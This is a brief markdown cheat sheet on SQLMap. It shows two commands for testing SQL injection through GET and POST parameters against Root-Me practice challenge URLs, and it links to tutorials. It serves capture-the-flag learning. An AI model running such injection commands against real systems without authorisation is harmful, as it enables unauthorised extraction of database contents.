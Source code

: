 # SQLMap

Enumerate and extract data from SQL databases

Download SQLMap [here](http://sqlmap.org/)


## GET request

SQL-injection in URL's (GET requests):
```bash
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC"
```

## POST request
SQL-injection in POST params (eg. login-forms)
```bash
sqlmap --method=POST -u "http://challenge01.root-me.org/web-serveur/ch9/" --data="login=admin&password=poo"
```

Tutorials:
* [Basic](https://www.youtube.com/watch?v=yPMbb38pwVI)
* [Introduction to SQLMap](https://www.gracefulsecurity.com/introduction-to-sqlmap/)